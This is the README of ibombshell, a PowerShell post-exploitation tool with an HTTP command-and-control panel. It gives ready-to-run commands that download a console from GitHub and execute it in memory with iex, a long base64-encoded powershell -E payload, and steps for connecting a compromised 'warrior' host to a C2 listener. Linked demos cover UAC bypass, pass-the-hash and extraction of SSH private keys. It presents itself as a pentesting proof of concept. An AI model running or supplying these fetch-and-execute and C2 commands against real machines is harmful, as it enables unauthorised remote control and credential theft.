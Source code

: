 ![Supported Python versions](https://img.shields.io/badge/python-3.6-blue.svg?style=flat-square)
![License](https://img.shields.io/badge/license-GNU-green.svg?style=flat-square)

# **ibombshell - Dynamic Remote Shell**

```
      ,--.!,    _ ____                  __   _____ __         ____  
   __/   -*-   (_) __ )____  ____ ___  / /_ / ___// /_  ___  / / /  
 ,d08b.  '|`  / / __  / __ \/ __ `__ \/ __ \\__ \/ __ \/ _ \/ / /  
 0088MM      / / /_/ / /_/ / / / / / / /_/ /__/ / / / /  __/ / /  
 `9MMP'     /_/_____/\____/_/ /_/ /_/_.___/____/_/ /_/\___/_/_/  

 [+] Starting the console...
 [*] Console ready!
```

**ibombshell** is a tool written in Powershell that allows you to have a prompt at any time with post-exploitation functionalities (and in some cases exploitation). It is a shell that is downloaded directly to memory providing access to a large number of pentesting features. These functionalities can be downloaded directly to memory, in the form of a Powershell function. This form of execution is known as *everywhere*.

In addition, *ibombshell* provides a second execution mode called *Silently*, so the pentester can execute an instance of ibombshell (called *warrior*). The compromised computer will be connected to a C2 panel through HTTP. Therefore, it will be possible to control the warrior and be able to load functions in memory that help the pentester. This is happening whithin the post-exploitation phase.

# Prerequisities

To run *ibombshell everywhere* it is mandatory to have PowerShell 3.0 or higher. For operating systems other than Windows you can read more about this in the [PowerShell GitHub](https://github.com/PowerShell/PowerShell) - *PowerShell for every system!*.

To run the *ibombshell silently mode* you need python 3.6 and some python libraries. You can install this with:

```[python]
cd ibombshell\ c2/
pip install -r requirements.txt
```

**Note**: ibombshell C2 works in **python 3.X**. Make sure you run a pip relative to this version.

# Usage

ibombshell has two execution modes:

## ibombshell everywhere

To load ibombshell simply run on PowerShell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

Now you can run the downloaded ibombshell console running:

```[powershell]
console
```

### ibombshell everywhere in isolated environments

If you need to use ibombshell in isolated environments, you must prepare your computer first in a networked environment. Load all the functions you will need, and use savefunctions to save them in the Windows registry.

Now you can use this base 64 code to get ibombshell:

```[powershell]
powershell.exe -E "JABwAGEAdABoACAAPQAgACcAaABrAGMAdQA6AFwAcwBvAGYAdAB3AGEAcgBlAFwAYwBsAGEAcwBzAGUAcwBcAGkAYgBvAG0AYgBzAGgAZQBsAGwAXABjAG8AbgBzAG8AbABlACcAOwAgAHQAcgB5ACAAewAJAGkAZgAoAHQAZQ
BzAHQALQBwAGEAdABoACAAJABwAGEAdABoACkAIAB7ACAAJABjAG8AbgBzAG8AbABlACAAPQAgACgARwBlAHQALQBDAGgAaQBsAGQASQB0AGUAbQAgACQAcABhAHQAaAApAC4ATgBhAG0AZQA7ACAAYwBkACAAaABrAGMAdQA6
ADsAIAAkAG4AYQBtAGUAIAA9ACAAJABjAG8AbgBzAG8AbABlAC4AcwBwAGwAaQB0ACgAIgBcACIAKQBbAC0AMQBdADsAIAAkAGMAbwBkAGUAIAA9ACAAKAAoAEcAZQB0AC0ASQB0AGUAbQAgAC0AUABhAHQAaAAgACIAJABjAG
8AbgBzAG8AbABlACIAIAB8ACAAUwBlAGwAZQBjAHQALQBPAGIAagBlAGMAdAAgAC0ARQB4AHAAYQBuAGQAUAByAG8AcABlAHIAdAB5ACAAUAByAG8AcABlAHIAdAB5ACkAIAB8ACAARgBvAHIARQBhAGMAaAAtAE8AYgBqAGUA
YwB0ACAAewBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAcABzAG8AYgBqAGUAYwB0ACAALQBQAHIAbwBwAGUAcgB0AHkAIABAAHsAIgBwAHIAbwBwAGUAcgB0AHkAIgA9ACQAXwA7ACAAIgBWAGEAbAB1AGUAIgAgAD0AIAAoAEcAZQ
B0AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIAAiACQAYwBvAG4AcwBvAGwAZQAiACAALQBOAGEAbQBlACAAJABfACkALgAkAF8AfQB9ACkALgBWAGEAbAB1AGUAOwAgACQAYwBvAGQAZQAgAHwAIABv
AHUAdAAtAHMAdAByAGkAbgBnACAAfAAgAGkAZQB4ADsAIABjADoAOwAgAGMAbwBuAHMAbwBsAGUAOwB9AH0AYwBhAHQAYwBoAHsAdwByAGkAdABlAC0AaABvAHMAdAAgACQARQByAHIAbwByAFsAMABdAH0A"
```

## ibombshell silently mode

This version allows you to run the ibombshell console and remotely control it from the C2 panel created in python. To run this version, first you must launch the console process in powershell:

```[powershell]
iex (new-object net.webclient).downloadstring(‘https://raw.githubusercontent.com/ElevenPaths/ibombshell/master/console’)
```

On ibombshell C2 path, prepare the C2:

```[python]
python3 ibombshell.py
```

And create the listener where the warriors will connected:

```[ibombshell]
iBombShell> load modules/listener.py
[+] Loading module...
[+] Module loaded!
iBombShell[modules/listener.py]> run
```

The default listener port is 8080. Finally you can launch the console in silently mode on the host to get remote control:

```[powershell]
console -Silently -uriConsole http://[ip or domain]:[port]
```

# ibombshell C2 scheme

The basic operation of the ibombshell control panel follows the following scheme:

```[ascii]
        ibombshell                 C2
            |                      |
            |    newibombshell     |
            +--------------------->| --+ register
            |                      |<--+ from IP
            |    get functions     |
            |   and instructions   |
            +--------------------->|
            |                      |
            |    send functions    |
            |   and instructions   |
execute +-- |<---------------------+
        +-->|                      |
            |       results        |
            +--------------------->|
            |                      |
```

# Docker

We have created a docker container with everything you need to make it works. Run this command from Dockerfile location.

```[bash]
sudo docker build -t "ibombshell" .
sudo docker run -it ibombshell
```

# Example videos

Some example videos...

### *iBombShell: PoC Warrior + Bypass UAC + Pass the hash*

[![iBombShell: PoC Warrior + Bypass UAC + Pass the hash](https://img.youtube.com/vi/v4c8MsOPTyA/0.jpg)](http://www.youtube.com/watch?v=v4c8MsOPTyA)

### *iBombShell: macOS*

[![iBombShell: PoC de uso desde macOS](https://img.youtube.com/vi/DQlWGPS1CB4/0.jpg)](http://www.youtube.com/watch?v=DQlWGPS1CB4)

### *ibombshell: Extracting Private SSH Keys on Windows 10*

[![ibombshell: Módulo para extracción de claves privadas SSH en Windows 10](https://img.youtube.com/vi/v7iXEg9cTNY/0.jpg)](http://www.youtube.com/watch?v=v7iXEg9cTNY)

### *iBombShell: PoC savefunctions*

[![iBombShell: PoC savefunctions](https://img.youtube.com/vi/7UP09LdRJy0/0.jpg)](http://www.youtube.com/watch?v=7UP09LdRJy0)

### *ibombshell - Silently bypass UAC Environment Injection*

[![ibombshell - Modo silencioso para el bypass UAC Environment Injection](https://img.youtube.com/vi/XrWM2gcXo3w/0.jpg)](https://www.youtube.com/watch?v=XrWM2gcXo3w)

### *iBombShell - Mocking Trusted Directory*

[![iBombShell - Mocking Trusted Directory](https://img.youtube.com/vi/6iCFS4FkedM/0.jpg)](https://www.youtube.com/watch?v=6iCFS4FkedM)

# License

This project is licensed under the GNU General Public License - see the LICENSE file for details

# Contact

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

This software doesn't have a QA Process. This software is a Proof of Concept.

If you have any problems, you can contact:

<pablo@11paths.com> - *Ideas Locas CDO - Telefónica*

<alvaro.nunezromero@11paths.com> - *Laboratorio Innovación - ElevenPaths*

<josue.encinargarcia@telefonica.com> - *Ideas Locas CDO - Telefónica*

For more information please visit [https://www.elevenpaths.com](https://www.elevenpaths.com).
